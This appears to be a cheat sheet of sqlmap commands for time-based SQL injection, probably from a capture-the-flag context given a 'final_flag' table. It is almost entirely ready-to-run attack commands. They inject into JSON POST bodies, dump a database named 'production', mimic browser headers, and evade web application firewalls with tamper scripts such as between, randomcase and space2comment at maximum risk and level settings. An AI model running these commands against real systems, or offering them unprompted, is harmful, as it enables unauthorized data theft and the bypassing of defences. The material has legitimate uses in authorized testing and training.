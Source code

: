 **JSON Time-based Injection:**
```bash
# JSON payload time-based attack
sqlmap 'http://target/api/action.php' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"id":1}' \
  --batch --dump \
  --risk 3 --level 5 \
  --technique=t \
  --random-agent \
  --tamper=between \
  -D production -T final_flag

# Alternative JSON formats
--data-raw '{"user_id":"1*","action":"search"}'  # Parameter in middle
--data-raw '{"filters":{"id":"1"}}'              # Nested JSON
--data-raw '[{"id":1,"type":"user"}]'            # JSON array
```

**Complex Headers + Time-based:**
```bash
# Advanced headers for realistic requests
sqlmap 'http://target/action.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://target:42925' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://target:42925/shop.html' \
  -H 'Priority: u=0' \
  --data-raw '{"id":1}' \
  --batch --dump \
  --technique=t \
  --random-agent \
  --tamper=between
```

**Time-based with WAF Bypass:**
```bash
# Time-based + tamper scripts for WAF evasion
sqlmap -u "URL" \
  --technique=T \
  --tamper=between,randomcase,space2comment \
  --random-agent \
  --delay=2 \          # Add delays between requests
  --timeout=60 \       # Longer timeout for slow responses
  --risk=3 --level=5

# Popular tampers for time-based:
--tamper=between                    # Replaces = with BETWEEN, > with NOT BETWEEN
--tamper=space2comment              # Replace spaces with /**/ comments  
--tamper=randomcase                 # SeLeCt instead of SELECT
--tamper=charencode                 # URL encode characters
--tamper=space2plus                 # Replace spaces with +
```
